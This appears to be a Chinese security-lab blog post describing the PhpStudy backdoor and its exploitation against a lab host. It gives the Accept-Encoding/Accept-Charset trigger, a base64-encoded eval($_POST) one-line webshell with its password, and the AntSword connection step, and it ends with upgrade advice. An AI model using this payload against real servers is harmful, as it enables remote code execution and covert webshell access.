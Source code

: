 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ekYYHSZuYnLQaQ5Mb-4JsA)

  

  

网安引领时代，弥天点亮未来 

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞****简述**  

  

Phpstudy 是一款 PHP 调试环境的程序集成包，集成了最新的 Apache、PHP、phpMyAdmin、ZendOptimizer 等多款软件一次性安装，无需配置，即装即用。Phpstudy + 框架存在后门，**可进行 RCE。**
==========================================================================================================================

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 影响版本**

  

  

Phpstudy+2016 版 + php-5.4

Phpstudy+2018 版 + php-5.2.17

Phpstudy+2018 版 + php-5.4.45

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 实  战**

  

  

**工欲善其事必先利其器**  

1. 访问环境

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7Yuh1aT7YlRR8RSbhhsFAeJC9JSbhked1picKkCwzdQgCGp12LPQvM7iabfA/640?wx_fmt=png)

2. 通过信息收集，获取重要入口

指纹信息：PHP 环境  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7Yuhib5ud4Jm0IRvPuziaH3WZMCuKGlicbby2F4SRgTXsEET3Rf95l5iciawr0w/640?wx_fmt=png)

目录信息：phpinfo.php  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7YuhLvZAZhWxrVzn9RBXgicT0qNalsoKQEuoaOAxqF1KTfvSHb9CgibNdNnw/640?wx_fmt=png)

http://192.168.60.132/phpinfo.php

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7YuhBvhtavUpy3wkELKDXl1ph3mqHBicBicHa16cZ7icRIj214eXKIdb0I21Q/640?wx_fmt=png)

3. 发现使用 PHP study 框架，尝试 POC 验证

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7YuhrluuxDwWaibtIdQ1ibZ6QEZQsv48rrfNbU4KpKUh1ibeIsG3OIq7errDw/640?wx_fmt=png)

4. 漏洞存在，**尝试 getshell**  

提取关键信息

Accept-Encoding:gzip,deflate

Accept-Charset:base64 编码执行的命令

一句话木马：

ZXZhbCgkX1BPU1RbeXVuenVpXSk7  

密码：yunzui

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7YuhJqZcqP5objIVdvlJLVaJwDeKB8OSeKKlWF95MYCKUziahrsSocMXuIA/640?wx_fmt=png)

祭出中国蚁剑

基本信息填写

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7Yuhx0XO1yvRSFKHuxicDLJohdtAhcAAIL3p0ATy0G0b8k8m4UMicXYKQvkw/640?wx_fmt=png)

**关键信息填写**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7YuhBSPm1uibAia3ceTKs2XwzrYPqZbxbKNGPa3LXl1R0cDyCS85gQRuOKQg/640?wx_fmt=png)

中国蚁剑连接成功

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAmWIs9ZxYWb5OzibXEk7Yuh9wjFnTiaIyg2SX3JYRt7JDEkS7tOFZicVXvJl2iaEibCicbibI9icwj9WkfFg/640?wx_fmt=png)

这种不落地的 webshell, 在安全监测过程中很难发现！从而也更好的说明了安全本质就是不断对抗.......  

‍

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**

  

  

升级 PHP study 版本。

https://www.xp.cn/index.php

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)